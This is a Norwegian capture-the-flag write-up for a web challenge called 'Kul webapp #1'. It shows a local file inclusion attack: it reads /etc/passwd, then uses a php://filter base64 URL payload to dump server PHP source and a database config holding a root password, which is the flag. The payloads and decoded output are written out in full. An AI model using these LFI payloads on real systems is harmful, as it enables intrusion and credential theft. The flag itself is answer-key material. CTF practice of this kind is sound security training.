






# Kul webapp #1

> Kul webapp #1
>
> Jeg lager en kul webapp! Check it out!
>
> ctf.uiactf.no:3004



---

Nettsiden ser slik ut etter at vi prøver å logge inn:



Tydeligvis ikke så mye funksjonalitet på nettsiden enda, men `?page=login.php` ser interessant ut.

`http://ctf.uiactf.no:3004/index.php?page=test` gir følgende resultat:



Her ser det ut som om vi har en LFI (Local File Inclusion)-sårbarhet som betyr at vi kan inkludere vilkårlige lokale filer på serveren og kanskje vise de på selve nettsiden?

La oss prøve å inkludere `/etc/passwd`. Se der ja:



Jeg fant ikke umiddelbart noen `flagg{.txt}`-fil innenfor rekkevidde, så da går jeg videre med å prøve å lese kildekoden til selve nettsiden. Det vil si kildekoden på serversiden, altså `PHP`-koden i dette tilfellet.

For å gjøre dette må vi ty til et triks. Som vi vet så vil det ikke fungere å lese `login.php` f.eks:


Det vi ser på bildet over er selvfølgelig resultatet av at `login.php` har kjørt på serveren og ikke selve kildekoden i filen.

Her kommer `Supported Protocols and Wrappers` (`https://www.php.net/manual/en/wrappers.php.php`) inn i bildet. Spesielt `php:// — Accessing various I/O streams`.

`php://`-wrapperen har støtte for `filter` som kan gjøre om innholdet i en fil i det den lastes.

Ved å bruke wrapperen og `base64`-filteret; `php://filter/convert.base64-encode/resource=` på denne måten: `http://ctf.uiactf.no:3004/index.php?page=php://filter/convert.base64-encode/resource=/usr/src/myapp/login.php`, får vi følgende resultat:



Her ser vi at får presentert innholdet i `login.php` som `base64`-kodet data. Når vi dekoder dataen ser vi følgende:

```bash
$ echo -n "PD9waHAKc2Vzc2lvbl9zdGFydCgpOwpyZXF1aXJlX29uY2UgImRhdGFiYXNlX2NvbmZpZy5waHAiOwppZihpc3NldCgkX1NFU1NJT05bImxvZ2dlZGluIl0pICYmICRfU0VTU0lPTlsibG9nZ2VkaW4iXSA9PT0gdHJ1ZSkKewogICAgaGVhZGVyKCJsb2NhdGlvbjogaW5kZXgucGhwIik7CiAgICBleGl0Owp9CgppZigkX1NFUlZFUlsiUkVRVUVTVF9NRVRIT0QiXSA9PSAiUE9TVCIpCnsKICAgIC8vIHRvZG86IFByb2Nlc3MgdGhlIGxvZ2luIHJlcXVlc3QKICAgIGVjaG8gJzxwIGNsYXNzPSJ0ZXh0LWRhbmdlciI+TG9naW4gZmVhdHVyZSBjdXJyZW50bHkgbm90IHdvcmtpbmcuIFRyeSBhZ2FpbiBsYXRlci48L3A+JzsKfQo/Pgo8bWFpbiByb2xlPSJtYWluIiBjbGFzcz0iaW5uZXIgY292ZXIiPgogICAgPGZvcm0gY2xhc3M9ImZvcm0tc2lnbmluIiBhY3Rpb249ImluZGV4LnBocD9wYWdlPWxvZ2luLnBocCIgbWV0aG9kPSJQT1NUIj4KICAgICAgICA8aDEgY2xhc3M9ImgzIG1iLTMgZm9udC13ZWlnaHQtbm9ybWFsIj5WZW5ubGlnc3QgbG9nZyBpbm48L2gxPgogICAgICAgIDxsYWJlbCBmb3I9ImVwb3N0IiBjbGFzcz0ic3Itb25seSI+RXBvc3Q8L2xhYmVsPgogICAgICAgIDxpbnB1dCB0eXBlPSJlbWFpbCIgaWQ9ImVwb3N0IiBjbGFzcz0iZm9ybS1jb250cm9sIiBwbGFjZWhvbGRlcj0ib2xhQGV4YW1wbGUuY29tIiByZXF1aXJlZCBhdXRvZm9jdXM+CiAgICAgICAgPGxhYmVsIGZvcj0icGFzc29yZCIgY2xhc3M9InNyLW9ubHkiPlBhc3NvcmQ8L2xhYmVsPgogICAgICAgIDxpbnB1dCB0eXBlPXBhc3N3b3JkIiBpZD0icGFzc29yZCIgY2xhc3M9ImZvcm0tY29udHJvbCIgcGxhY2Vob2xkZXI9IlBhc3NvcmQiIHJlcXVpcmVkPgogICAgICAgIDxidXR0b24gY2xhc3M9ImJ0biBidG4tbGcgYnRuLXByaW1hcnkgYnRuLWJsb2NrIiB0eXBlPSJzdWJtaXQiPkxvZ2cgaW5uPC9idXR0b24+CiAgICA8L2Zvcm0+CjwvbWFpbj4KPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSJsb2dpbi5jc3MiPgo=" | base64 -d
```

`login.php`
```php
<?php
session_start();
require_once "database_config.php";
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true)
{
    header("location: index.php");
    exit;
}

if($_SERVER["REQUEST_METHOD"] == "POST")
{
    // todo: Process the login request
    echo '<p class="text-danger">Login feature currently not working. Try again later.</p>';
}
?>
<main role="main" class="inner cover">
    <form class="form-signin" action="index.php?page=login.php" method="POST">
        <h1 class="h3 mb-3 font-weight-normal">Vennligst logg inn</h1>
        <label for="epost" class="sr-only">Epost</label>
        <input type="email" id="epost" class="form-control" placeholder="ola@example.com" required autofocus>
        <label for="passord" class="sr-only">Passord</label>
        <input type=password" id="passord" class="form-control" placeholder="Passord" required>
        <button class="btn btn-lg btn-primary btn-block" type="submit">Logg inn</button>
    </form>
</main>
<link rel="stylesheet" href="login.css">
```

Her ser vi en referanse til `database_config.php`:

```php
require_once "database_config.php";
```

Denne filen høres interessant ut. La oss lese ut `database_config.php` på samme måte:



... vi dekoder:

```bash
$ echo -n "PD9waHAKZGVmaW5lKCdEQl9TRVJWRVInLCAnbG9jYWxob3N0Jyk7CmRlZmluZSgnREJfVVNFUk5BTUUnLCAncm9vdCcpOwpkZWZpbmUoJ0RCX1BBU1NXT1JEJywgJ1VJQUNURntEZW5uZSBmaWxlbiBza3VsbGUgZHUgaWtrZSBrdW5uZSBsZXNlfScpOwpkZWZpbmUoJ0RCX05BTUUnLCAnY29vbGlvJyk7Cj8+Cg==" | base64 -d
```

```php
<?php
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'UIACTF{Denne filen skulle du ikke kunne lese}');
define('DB_NAME', 'coolio');
?>
```

Nå har vi tilgang til brukernavn og passord som brukes mot databaseserveren. Og i dette tilfellet inneholder `DB_PASSWORD` flagget vårt!


## Flag
`UIACTF{Denne filen skulle du ikke kunne lese}`
